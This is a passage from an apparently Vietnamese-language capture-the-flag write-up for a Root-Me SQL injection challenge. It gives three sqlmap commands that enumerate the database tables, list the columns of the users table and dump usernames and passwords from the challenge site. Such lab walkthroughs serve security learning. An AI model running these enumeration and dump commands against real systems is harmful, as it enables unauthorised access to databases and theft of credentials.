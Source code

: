 ## Solution 2: sqlmap
Biết được param để exploit và DMBS ta có thể sử dụng 1 tool khá phổ biến để test lỗ hổng SQLi đó là ``sqlmap`` . Trước tiên là extract ra tên của tables.

link: https://github.com/sqlmapproject/sqlmap

```
./sqlmap.py --dbms=SQLite --data='username=FUZZ&password=FUZZ' --tables -u "challenge01.root-me.org/web-serveur/ch10/"
```
![img](./img/6.png)

Tiếp theo là extract ra tên và số cột trong ``users``

```
./sqlmap.py --dbms=SQLite -D SQLite_masterdb -T users --columns --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/"
```

![img](./img/7.png)

yay, đã có đủ hết mọi dữ kiện cần thiết, giờ thì dump hết ra thoi

```
./sqlmap.py --dbms=SQLite -D SQLite_masterdb -T users -C "username","password","Year" --dump --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/"
```
